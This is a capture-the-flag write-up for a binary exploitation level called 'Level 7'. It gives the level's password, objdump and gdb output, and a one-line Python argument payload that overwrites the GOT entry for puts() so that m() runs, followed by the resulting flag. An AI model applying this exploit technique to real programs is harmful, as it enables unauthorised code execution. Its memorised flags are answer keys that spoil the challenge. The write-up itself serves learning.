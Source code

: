# Level 7
*password : f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d*

## Analyze

```
$ scp -P 4242 level7@192.168.56.108:level7 binary/
```

## GOT overwrite

objective : excute `m()` instead of `puts()`

```
$ objdump -R ./level7 
...
08049928 R_386_JUMP_SLOT   puts
...
$ gdb level7
(gdb) info funct m
...
0x080484f4  m
...
```

`m()` address : 0x080484f4\
`puts()` address : 0x08049928

- compute offset : 8 + 3 * 4 = 20

```
$ ./level7  $(python -c 'print "a" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1651857543
```
